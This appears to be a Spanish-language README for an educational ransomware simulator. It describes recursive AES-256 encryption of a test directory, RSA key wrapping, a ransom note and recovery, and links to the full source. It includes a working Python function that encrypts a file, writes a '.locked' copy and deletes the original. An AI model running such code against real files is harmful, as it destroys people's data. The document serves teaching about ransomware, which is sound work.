

# Ransomware Simulator

<span style="background-color: #2ea44f; color: white; padding: 4px 8px; border-radius: 4px; font-weight: bold;">Nivel Avanzado</span>

## 📝 Descripción
Simulador educativo del ciclo completo: cifrado AES-256, nota de rescate y recuperación en entorno seguro.

## 🛠️ Arquitectura y Flujo de Datos


## 🧠 Explicación Técnica y Conceptos Clave
Un simulador controlado con fines didácticos para entender cómo el ransomware secuestra la información. Cifra en bucle recursivo un directorio de prueba usando algoritmos de criptografía simétrica (AES-256), guarda la clave cifrándola opcionalmente con una clave pública RSA y despliega la nota de rescate. Muestra la implementación del proceso inverso de recuperación mediante la clave de descifrado correspondiente.

## 💻 Código de Ejemplo o Estructura Lógica
```python
# Simulación simplificada de cifrado de archivos
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
import os

def encrypt_file(filepath, key):
    iv = os.urandom(16)
    cipher = Cipher(algorithms.AES(key), modes.CFB(iv))
    encryptor = cipher.encryptor()
    with open(filepath, 'rb') as f:
        data = f.read()
    with open(filepath + ".locked", 'wb') as f:
        f.write(iv + encryptor.update(data) + encryptor.finalize())
    os.remove(filepath)
```

## 🔗 Código Fuente y Acceso en GitHub
Puedes ver la implementación completa del código y probar este script directamente accediendo a su carpeta de proyecto:
[Ver código en GitHub](https://github.com/lucasmdg/CIBER/tree/main/ciberseguridad/nivel_avanzado/08_ransomware_simulator_controlled)
